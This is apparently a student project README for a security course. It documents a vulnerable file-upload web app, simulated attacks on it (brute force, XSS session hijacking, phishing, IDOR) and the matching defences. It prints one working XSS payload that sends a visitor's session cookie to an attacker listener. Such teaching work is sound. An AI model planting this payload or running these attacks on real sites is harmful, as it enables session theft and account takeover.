 # ELEC0138 Group 8 – Security and Privacy challenges in a File Upload App

## Overview

This project aims to analyze and address Security and Privacy challenges in a web-based app (File Upload App) by applying threat modeling and mitigation methods. 

Several cyber attacks targeting common vulnerabilities are designed and implemented. Also, relevant mitigation measures are presented.

A vedio presentation of this project can be seen:(https://youtu.be/MD4qnzbECH4)


## Group Members

- Wenjing Hu
- Zoe Qian
- Andreas Tyrovolas


## Features

```
ELEC0138_Group8/
├── Attack/            # Contains different attacks and relevant mitigation methods
├── static/            # Functions of uploading documents
├── templates/         # HTML templates for the web interface
├── environment.yml    # Conda environment definition
├── initialize_db.py   # Script to initialize the database
├── requirements.txt   # Python package dependencies
└── system.py          # Main application script

```


## Steps

1. **Clone the Repository**

   ```bash
   git clone https://github.com/Wenjing-1225/ELEC0138_Group8.git
   cd ELEC0138_Group8
   ```


2. **Set Up the Environment**

   Create a Conda environment using the provided `environment.yml` file:

   ```bash
   conda env create -f environment.yml
   conda activate elec0138_group8
   ```


   Alternatively, install dependencies using `requirements.txt`:

   ```bash
   pip install -r requirements.txt
   ```


3. **Run the Application**

   Start the main application:

   ```bash
   python system.py
   ```


   The web interface should now be accessible at `http://localhost:5000/`.


4. **Run the Attack Simulation**

   - **Brute-force Login Attack**:
     
     1. Edit `brute_force.py` to set the target username (e.g. `victim@example.com`)  
     2. Run `brute_force.py`  
        → The script will simulate password guessing attempts by sending repeated login requests using common passwords.  
        → A valid match will be printed to the terminal once found.  
        > This simulates a real-world brute force scenario using multithreading and common credential dictionaries.

   - **Session Hijacking via XSS**:
     
     1. Register a malicious username like:  
        ```html
        <script>new Image().src="http://localhost:8000/steal?cookie="+document.cookie</script>
        ```
     2. Run `listener.py`  
        → This starts a listener on port 8000 to capture incoming cookies.

     3. When a legitimate user visits the homepage, the malicious script will trigger and send their session cookie to the attacker.
     4. Use `hijack_session.py`  
        → Load the captured cookie and simulate a GET request to `/`, gaining unauthorized access as the victim.
   - **Phishing Simulation**:
     
     1. Run `send_phishing.py`  
        → You can modify the `receiver_email` variable to the desired email address.  
        *Please make sure that you have the recipient’s explicit consent before sending any simulated phishing emails.*

     2. Run `app.py`  
        → This will launch the phishing web application.

   - **IDOR Attack Simulation**:

     1. Run `image_attack.py`  
     2. Stolen images will be stored in a separate folder, stolen_images
        
4. **Run the Defense System**

   - **Phishing Detection System**:

     1. Run `model.py`  
        → This initializes and loads the phishing detection model.

     2. Run `combined_defences.py`  
        → This starts the Flask web interface for users to input URLs and receive detection results in Security Center.

   - **IDOR Defence Strategy**:

     1. Run `combined_defences.py`  
     2. This ensures, session based authentication, strict access control, logging and that filenames are securely hashed


